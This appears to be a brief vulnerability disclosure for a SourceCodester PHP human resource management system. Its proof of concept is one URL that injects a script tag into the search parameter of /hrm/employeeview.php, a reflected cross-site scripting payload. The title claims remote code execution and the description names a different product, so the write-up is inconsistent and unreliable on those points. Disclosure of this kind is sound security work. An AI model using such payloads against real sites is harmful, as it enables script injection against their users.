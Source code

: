 # Human Resource Management System 1.0 Remote Code Execution (Unauthenticated)

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A Reflected cross-site scripting (XSS) vulnerability in /hrm/employeeview.php with search handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeview.php

Proof of Concept:

http://localhost/hrm/employeeview.php?searchview=Submit+Query&search=sss%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cinput

![](images/xss-confirm.png)